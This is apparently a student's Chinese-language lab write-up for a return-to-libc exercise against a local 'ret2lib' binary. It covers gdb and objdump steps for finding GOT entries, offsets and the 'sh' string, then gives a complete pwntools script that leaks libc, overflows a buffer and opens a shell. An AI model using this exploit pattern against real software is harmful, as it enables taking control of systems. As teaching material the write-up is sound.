 # Lab4 ret2lib

## 先備知識

### strtol()

`long int strtol(const char *str, char **endptr, int base)`

將str初始部分轉換為long int值

### 找dynamic relocation的offset

- gdb$ got
- objdump -R ./ret2lib
    - 驗證
        - 運行./ret2lib後，input我們得到的functon offset後會得到他的address，x/i <address>看是不是該function

### 找用gdb找return offset

- gdb$ pattc 100
    - 產生100個字元後塞到input去造成bof
- gdb$ crashoff
    - 會回傳return offset在哪裏

### libc中的/bin/sh字串位置

- gdb$ find "sh"

## Return to Library 解題步驟

1. 因為ASLR每次libc載入位置不固定，故我們需要先利用information leak去得到libc的base address
2. 利用base address和system offset可以得知system address
3. 用buffer overflow將return值改成system  address，進而使用system function執行shell命令開啟sh

## Solve

### 分析

1. See_somehting()會將輸入的內容做dereference，這邊就可以information leak得到base address
2. Print_message()中的strcpy(buf, mesg)因為buf[48]而mesg[256]，所以會有buffer overflow，可以藉此跳到system function

### 解題策略

1. 我選用puts的位置和offset來找base address → 得到system address
2. BOF return 跳到 system function並call "sh"

```python
#!/usr/bin/env python
# -*- coding: utf-8 -*-
from pwn import *

host = "127.0.0.1"
port = 8888

r = remote(host,port)

r.recvuntil(":")
puts_got = 0x0804a01c # puts address, objdump -R ./ret2lib

r.sendline(str(puts_got)) # convert to decimal 
r.recvuntil(": ")
puts_adr = int(r.recvuntil("\n").strip(),16)
puts_off = 0x67460 # puts offset, gdb$ off puts
system_off = 0x3ce10 # system offset, gdb$ off system
libc = puts_adr - puts_off # address - offset = base
print "libc : ",hex(libc)
system = libc + system_off # system address
sh = 0x804829e # sh address, gdb$ find "sh"
r.recvuntil(":")
payload = "a"*60 # offset 
payload += p32(system)
payload += "bbbb" # fill up the return address,  or += p32(0xdeadbeef) is also fine
payload += p32(sh) # sh address
r.sendline(payload)
r.interactive()
```
